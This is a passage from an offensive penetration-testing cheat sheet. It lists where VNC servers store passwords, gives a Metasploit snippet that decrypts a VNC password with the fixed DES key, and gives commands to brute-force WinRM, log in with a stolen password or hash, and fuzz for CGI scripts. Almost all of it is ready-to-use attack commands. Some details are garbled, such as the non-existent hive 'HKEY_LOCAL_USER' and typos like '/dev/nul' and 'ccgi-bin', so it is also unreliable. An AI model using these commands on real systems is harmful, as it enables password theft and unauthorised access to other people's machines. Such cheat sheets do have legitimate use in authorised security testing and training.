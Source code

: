#### Windows

```
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```

### Decrypt VNC password

```
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```

---

## WINRM - 5985 - 5986

### Brute force

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

### Connecting

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```

---

## CGI

### Found CGI scripts

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/CGI-XPlatform.fuzz.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/FUZZ -e .sh,.pl,.cgi -t 100
```
